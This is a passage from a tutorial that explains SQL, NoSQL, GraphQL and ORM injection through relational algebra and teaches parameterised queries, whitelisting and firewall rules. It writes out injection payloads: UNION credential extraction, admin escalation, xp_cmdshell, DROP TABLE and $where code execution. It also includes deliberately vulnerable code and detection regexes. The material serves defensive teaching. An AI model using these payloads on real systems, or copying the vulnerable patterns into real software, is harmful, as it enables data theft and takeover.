-- id = 1' UNION SELECT username, password FROM Users --
-- Algebra: 
-- π_{*}(σ_{id=1}(Products)) ∪ π_{username,password}(Users)
SELECT * FROM Products WHERE id = 1
UNION
SELECT username, password FROM Users;

-- Stage 4: Privilege Escalation
-- id = 1'; UPDATE Users SET is_admin=1 WHERE username='attacker' --
-- Algebra: Introduces UPDATE operation (DML)

-- Stage 5: Operating System Access
-- id = 1'; EXEC xp_cmdshell 'whoami' --
-- Algebra: Completely leaves relational model!
```

## The Algebraic Security Model

### What "Safe" Algebra Looks Like



### Security Through Algebraic Constraints

```sql
-- Safe: Parameterized queries enforce atomic values
-- The parameter CANNOT become a predicate
PREPARE stmt FROM 'SELECT * FROM Users WHERE id = ?';
EXECUTE stmt USING @user_id;
-- σ_{id = @user_id} where @user_id is ALWAYS a value

-- The algebraic constraint:
-- Variables in σ must be ATOMIC values
-- They CANNOT be expressions or predicates

-- Violation example (dynamic SQL):
SET @query = CONCAT('SELECT * FROM Users WHERE id = ', @user_input);
PREPARE stmt FROM @query;
-- Now @user_input can become a predicate!
```

---

# Part 6: Prevention Through Algebraic Thinking

## Rewriting Vulnerable Algebra Safely

### From Dynamic to Static Predicates

```sql
-- Vulnerable (dynamic predicate):
$sql = "SELECT * FROM Users WHERE username = '$username'";
-- σ_{username = $username}(Users)
-- $username can be ANY expression

-- Safe (static predicate with parameter):
$sql = "SELECT * FROM Users WHERE username = ?";
-- σ_{username = :param}(Users)
-- :param is ALWAYS a VALUE, never an expression

-- The algebra becomes:
-- For any input x, σ_{username = value(x)}(Users)
-- where value(x) is always treated as literal
```

### Algebraic Proof of Safety

```typescript
// Type system to prevent algebraic injection
type SQLValue = string | number | boolean | null;
type SQLPredicate = (row: Row) => boolean;

// UNSAFE: Allows predicate construction from strings
function unsafeQuery(userInput: string): SQLPredicate {
    // String concatenation can create new predicates!
    return eval(`row => row.username === '${userInput}'`);
}

// SAFE: Only values, no predicate construction
function safeQuery(userInput: SQLValue): Row[] {
    // parameterized query, userInput is always a VALUE
    const predicate = (row: Row) => row.username === userInput;
    return database.filter(predicate);
}

// Injection attempt:
// unsafeQuery("' OR '1'='1") creates:
// row => row.username === '' OR '1'='1'
// This is a TAUTOLOGY!

// safeQuery("' OR '1'='1") creates:
// row => row.username === "' OR '1'='1"
// This looks for a literal username (which doesn't exist)
```

## Building Injection-Resistant Queries

### The Parameterization Principle



### Complete Security Checklist

```sql
-- ✓ DO: Use parameterized queries
PREPARE stmt FROM 'SELECT * FROM users WHERE email = ?';
-- Algebra: σ_{email = :param}(users)
-- :param is guaranteed to be VALUE

-- ✗ DON'T: String concatenation
SET @query = CONCAT('SELECT * FROM users WHERE email = ''', @email, '''');
-- Algebra: σ_{email = $expression}(users)
-- $expression can be ANYTHING

-- ✓ DO: Whitelist for dynamic identifiers
SET @allowed_columns = 'id', 'username', 'email';
-- Only allow known column names in π (projection)

-- ✗ DON'T: Accept raw column names
SET @query = CONCAT('SELECT ', @column_name, ' FROM users');
-- Attacker: column_name = "* FROM users; DROP TABLE users; --"

-- ✓ DO: Use stored procedures
CREATE PROCEDURE GetUser(IN user_id INT)
BEGIN
    SELECT * FROM users WHERE id = user_id;
END;
-- The procedure signature enforces INT type

-- ✗ DON'T: Dynamic SQL in procedures
CREATE PROCEDURE GetUser(IN where_clause VARCHAR(1000))
BEGIN
    SET @sql = CONCAT('SELECT * FROM users WHERE ', where_clause);
    PREPARE stmt FROM @sql;
    EXECUTE stmt;
END;
-- where_clause can contain ANY predicate!
```

---

# Part 7: The Algebra of Modern Attacks

## NoSQL Injection as Extended Algebra

```javascript
// MongoDB injection - The same algebraic principles!

// Safe query (algebraic: σ_{username = value}(users))
db.users.find({ username: userInput });

// With input: { "$ne": "" }
// Becomes: σ_{username ≠ ""}(users)
// Which returns ALL users with a username!

// With input: { "$gt": "" }
// Becomes: σ_{username > ""}(users)
// Returns all users with non-empty username (lexicographic order)

// The $where operator - Predicate injection!
db.users.find({ 
    $where: `this.username == '${userInput}'` 
});
// With: '; sleep(5000); '
// Becomes: this.username == ''; sleep(5000); ''
// Executes arbitrary JavaScript!
```

## GraphQL Injection Algebra

```graphql
# GraphQL also follows relational algebra principles

# Safe query:
query {
    user(id: 5) {
        name
        email
    }
}
# π_{name, email}(σ_{id = 5}(users))

# Vulnerable resolver:
function getUser(_, args) {
    return db.query(`SELECT * FROM users WHERE id = ${args.id}`);
}

# With injection: id = "5 UNION SELECT * FROM admins"
# π_{*}(σ_{id=5}(users)) ∪ π_{*}(admins)
```

## ORM Injection - The Hidden Algebra

```python
# Django ORM - safe usage
User.objects.filter(username=user_input)
# Generates: σ_{username = %s}(users) with parameterization

# Django ORM - dangerous usage
User.objects.raw(f"SELECT * FROM users WHERE username = '{user_input}'")
# Back to string concatenation!

# Django ORM - extra() method vulnerability
User.objects.extra(
    where=[f"username = '{user_input}'"]
)
# Allows raw WHERE clause injection
# σ_{arbitrary_predicate}(users)

# SQLAlchemy safe:
session.query(User).filter(User.username == user_input)
# Parameterized automatically

# SQLAlchemy dangerous:
session.execute(f"SELECT * FROM users WHERE username = '{user_input}'")
# String injection possible
```

---

# Part 8: Advanced Defensive Algebra

## Query Rewriting for Security

```sql
-- Concept: Algebraic Query Rewriting for Security

-- Original unsafe query:
SELECT * FROM Users WHERE username = '$input';

-- Rewrite 1: Parameterized version
PREPARE stmt FROM 'SELECT * FROM Users WHERE username = ?';
-- Algebraic guarantee: ? is always atomic value

-- Rewrite 2: Add algebraic constraints
CREATE VIEW SafeUserView AS
SELECT id, username, email  -- Limited projection
FROM Users
WHERE is_active = TRUE;      -- Fixed predicate

-- Query against view:
SELECT * FROM SafeUserView WHERE username = ?;
-- Even if ? contains injection, only affects one parameter
-- View already has fixed σ and π constraints
```

## Building Algebraic Firewalls



### SQL Firewall Rules as Algebraic Constraints

```sql
-- Rule 1: No tautologies in WHERE clause
-- Block: WHERE 1=1, WHERE 'a'='a', WHERE TRUE
-- Algebraic check: σ_{P}(R) where P ≡ TRUE → blocked

-- Rule 2: Limit UNION sources
-- Allow: Q1 UNION Q2 where both from user tables
-- Block: Q1 UNION SELECT from mysql.user

-- Rule 3: No comment injections
-- Block: --, #, /* */ in user input unless escaped

-- Rule 4: Maximum predicate complexity
-- Block: More than N boolean operators in WHERE
-- Block: Deeply nested subqueries

-- Implementation example:
CREATE FUNCTION check_query_safety(query TEXT) 
RETURNS BOOLEAN
BEGIN
    IF query REGEXP '(?i)(OR.*1.*=.*1|AND.*1.*=.*1)' THEN
        RETURN FALSE; -- Tautology detected
    END IF;
    
    IF query REGEXP '(?i)UNION.*SELECT.*FROM.*mysql\.' THEN
        RETURN FALSE; -- System table access
    END IF;
    
    RETURN TRUE;
END;
```

---

# Part 9: Practical Exercises

## Exercise 1: Identify the Algebraic Flaw

```sql
-- Exercise: Find the vulnerability in this query
-- and express it in relational algebra

$query = "SELECT name, salary FROM Employees 
          WHERE department = '" + $_POST['dept'] + "' 
          ORDER BY " + $_GET['sort'];

-- Questions:
-- 1. What algebraic operations are present?
-- 2. Where can an attacker inject?
-- 3. Write the algebra for an attack that extracts all salaries

-- Answers below:

-- Algebraic components:
-- π_{name, salary}(τ_{sort}(σ_{dept = input1}(Employees)))
--                    ↑ vulnerable     ↑ vulnerable

-- Attack 1: Department injection
-- Input: HR' OR '1'='1
-- π_{name, salary}(τ_{sort}(σ_{dept = 'HR' ∨ TRUE}(Employees)))
-- = π_{name, salary}(τ_{sort}(σ_{TRUE}(Employees)))
-- = π_{name, salary}(τ_{sort}(Employees))
-- → Returns ALL employees' names and salaries!

-- Attack 2: ORDER BY injection
-- Input: (CASE WHEN (SELECT COUNT(*) FROM admins) > 0 THEN name ELSE salary END)
-- Creates a timing/information oracle
```

## Exercise 2: Build a Safe Version

```sql
-- Task: Rewrite the vulnerable query safely

-- Original vulnerable:
$query = "SELECT * FROM Products WHERE category = '" + $cat + "'";

-- Safe version (PHP PDO):
$stmt = $pdo->prepare("SELECT * FROM Products WHERE category = ?");
$stmt->execute([$cat]);

-- Algebraically:
-- Before: σ_{category = $expression}(Products)  
-- After:  σ_{category = value($cat)}(Products)
-- The value() function ensures $cat is always atomic

-- Additional safety: Whitelist categories
$allowed_categories = ['Electronics', 'Books', 'Clothing'];
if (!in_array($cat, $allowed_categories)) {
    die("Invalid category");
}
```

## Exercise 3: Detect Algebraic Inconsistency

```sql
-- This query has a subtle algebraic flaw. Find it.

CREATE PROCEDURE SearchUsers(IN search_term VARCHAR(100))
BEGIN
    SET @sql = CONCAT(
        'SELECT username, email FROM Users 
         WHERE ',
        CASE 
            WHEN search_term LIKE '%@%' 
            THEN CONCAT('email LIKE ''%', search_term, '%''')
            ELSE CONCAT('username LIKE ''%', search_term, '%''')
        END
    );
    PREPARE stmt FROM @sql;
    EXECUTE stmt;
END;

-- Flaw: The CASE statement uses string concatenation!
-- Attack input: @%' OR 1=1 --
-- Creates: email LIKE '%@%' OR 1=1 --%'

-- Algebraic analysis:
-- Intended: σ_{email LIKE '%value%'}(Users)
-- Actual: σ_{email LIKE '%@%' OR 1=1}(Users) = σ_{TRUE}(Users)

-- Fix:
CREATE PROCEDURE SearchUsersSafe(IN search_term VARCHAR(100))
BEGIN
    IF search_term LIKE '%@%' THEN
        SELECT username, email FROM Users 
        WHERE email LIKE CONCAT('%', search_term, '%');
    ELSE
        SELECT username, email FROM Users 
        WHERE username LIKE CONCAT('%', search_term, '%');
    END IF;
END;
```

---

# Part 10: Summary and Quick Reference

## The Algebra-Security Matrix

| Algebraic Operation | Safe Implementation | Vulnerable Implementation | Attack Pattern |
|-------------------|-------------------|-------------------------|----------------|
| σ (Selection) | Parameterized WHERE | String concat WHERE | Tautology injection |
| π (Projection) | Whitelist columns | Dynamic column names | Information disclosure |
| ⋈ (Join) | Fixed ON clause | Dynamic join conditions | Join poisoning |
| ∪ (Union) | Fixed subqueries | Dynamic UNION | Data exfiltration |
| τ (Sorting) | Fixed ORDER BY | Dynamic ORDER BY | Blind injection |
| γ (Grouping) | Fixed GROUP BY | Dynamic GROUP BY | Error-based injection |

## The Golden Rule of Safe Algebra



## Final Algebraic Security Principles

1. **Value Atomicity**: User input must always be treated as atomic values
2. **Predicate Safety**: Predicates must be predefined, not constructed from input
3. **Operation Boundedness**: Join, union, projection operations must be bounded
4. **Type Enforcement**: Strong typing prevents algebraic type confusion
5. **Scope Limitation**: Queries must operate within defined scope (views, permissions)
6. **Composition Security**: Safe operations composed must remain safe (closure)

---

# Appendix: Algebraic Proof of SQL Injection

## Formal Proof of Vulnerability

```
Theorem: String concatenation breaks algebraic closure

Given:
- Query constructor Q(s) = "SELECT * FROM R WHERE P(" + s + ")"
- Where P is a predicate template

Proof:
1. For parameterized query: Q(p) where p is atomic
   - There exists value v such that Q(p) = σ_{v}(R) for all p
   
2. For string concatenated query: Q(s) where s is string
   - Let s = "' OR '1'='1"
   - Q("' OR '1'='1") = "SELECT * FROM R WHERE P(' OR '1'='1)"
   - = σ_{P' ∨ TRUE}(R) where P' is some predicate
   - = σ_{TRUE}(R) (by Boolean algebra)
   - = R (all tuples)
   
3. Therefore:
   - Parameterized: ∀p, |Q(p)| ≤ |R|
   - String concat: ∃s, |Q(s)| = |R| (information leak)
   
∎ The string concatenation approach violates closure
```

## Relational Algebra Reference Card

```
Basic Operations:
  σ_p(R)    : Selection (filter rows where p is true)
  π_A(R)    : Projection (select columns A)
  R ∪ S     : Union (tuples in R or S)
  R - S     : Difference (tuples in R not in S)
  R × S     : Cartesian product (all combinations)
  R ⋈_p S   : Join (combined where p)

Extended Operations:
  R ⟕ S     : Left outer join
  R ⟖ S     : Right outer join
  R ⟗ S     : Full outer join
  γ_A, F(R) : Grouping with aggregate F
  τ_p(R)    : Sorting by p
  R ÷ S     : Division

SQL Mapping:
  σ → WHERE
  π → SELECT
  ⋈ → JOIN
  ∪ → UNION
  - → EXCEPT
  γ → GROUP BY
  τ → ORDER BY
```

---

*Remember: Understanding the algebra behind SQL not only makes you a better developer but also reveals why certain patterns are vulnerable. Always treat user input as atomic values, never as algebraic expressions.*


## Key Takeaways

1. **SQL is Algebra**: Every SQL query is a relational algebra expression
2. **Injection Breaks Closure**: SQL injection happens when user input can modify the algebraic structure
3. **Values ≠ Predicates**: The fundamental flaw is treating user input as predicates instead of atomic values
4. **Parameterization is the Key**: It enforces that inputs remain values, not operators
5. **Think Algebraically**: Understanding the algebra makes both writing queries and finding vulnerabilities intuitive

This guide shows how the mathematical foundation of databases directly relates to security vulnerabilities, making it easier to reason about both query design and security hardening.
